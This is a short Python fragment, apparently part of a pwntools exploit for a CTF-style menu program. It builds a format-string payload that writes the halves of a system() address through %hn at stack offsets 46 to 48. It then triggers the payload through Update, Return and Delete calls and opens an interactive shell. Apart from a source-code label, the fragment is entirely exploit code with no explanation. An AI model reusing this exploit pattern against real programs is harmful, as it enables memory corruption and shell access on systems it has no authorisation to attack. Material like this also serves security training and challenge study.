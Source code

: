 ```py

if(system2 > 0):
    fmtstr += '%' + str((system2 - written) % 0x10000) + 'hhx'
    written += (system2 - written) % 0x10000
    fmtstr += '%46$hn'

if(system4 > 0):
    fmtstr += '%' + str((system4 - written) % 0x10000) + 'hhx'
    written += (system4 - written) % 0x10000
    fmtstr += '%47$hn'

if(system6 > 0):
    fmtstr += '%' + str((system6 - written) % 0x10000) + 'hhx'
    written += (system6 - written) % 0x10000
    fmtstr += '%48$hn'

Update('writer', fmtstr)
Return('writer')



Delete('shell')

io.interactive()
```

